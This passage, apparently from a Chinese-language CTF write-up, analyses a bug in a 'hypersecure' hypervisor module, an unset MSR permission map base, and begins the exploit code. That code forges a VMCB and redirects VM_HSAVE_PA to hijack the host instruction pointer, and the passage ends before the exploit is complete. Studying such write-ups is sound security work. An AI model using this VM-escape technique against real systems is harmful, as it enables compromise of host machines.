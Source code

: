 ```php
pop %r9
pop %r8
pop %rbp
pop %rsi
pop %rdi
pop %rdx
pop %rcx
pop %rbx

ret 
SYM_FUNC_END(__hypersecure_run)
```

3.bug利用
-------

hypersecure\_setup\_vmcb设置了msr\_prot\_intercept，所以vmm可以拦截rdmsr/wrmsr指令，但是没有设置MSRPM\_BASE\_PA，也就是说MSRPM将会从host的物理地址0开始(在本次的环境之下，host是qemu启动的系统)。从0开始的地址本来是为IO保留的，现在qemu的MSR Permission Map(MSRPM)也会使用这一部分来返回值，这部分内存有很多0数据，MSRPM是MSR的映射表，所以我们可以访问并修改很多的MSR。

VM\_HSAVE\_PA MSR指向的是qemu中定义的vm\_hsave(因为qemu虚拟出cpu)，而vm\_hsave中便是按照vmcb的结构体进行保存host的状态，如果我们能劫持VM\_HSAVE\_PA到我们可以控制的地址，便可以控制host的rip，注意qemu定义的vmcb.save正好和ko文件定义的save结构一样。

![5.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-136585bdebfca81951241991f85eabb50eaa31af.png)

![6.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-4026cc374022d751e74b471908198232cf3a08cb.png)

![7.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-7df4042d87c95ffd2ddd47e1e3d510ebee0a2eeb.png)  
可以修改VM\_HSAVE\_PA MSR指向我们所伪造的host状态，从而劫持了程序。当发起VM-Exit时，处理器从Host保存区读取状态，如果状态被污染，则处理器进入关机状态。

4.exp
-----

### Main.c

```php
#include "first_stage.h"
#include "second_stage.h"
#include <stdio.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stddef.h>

#include "hypersecure-vmcb.h"

#define NEW_HSAVE_PA 0x8000000
#define PAYLOAD_OFF 0x640

static void write_vmcb(void *data) {
    memset(data, 0, 0x1000);
    struct hypersecure_vmcb *vmcb = (struct hypersecure_vmcb *)data;
    _Static_assert(sizeof(*vmcb) <= 0x1000, "aha");
    vmcb->save.rip = NEW_HSAVE_PA + PAYLOAD_OFF;
    //printf("vmcb_addr:0x%lx\n",vmcb);
    printf("vmcb_save:0x%lx\n",&vmcb->save);
    printf(" rip_addr:0x%lx\n",&vmcb->save.rip);
    printf("  content:0x%lx\n",vmcb->save.rip);
    //printf("*********\n");
}
```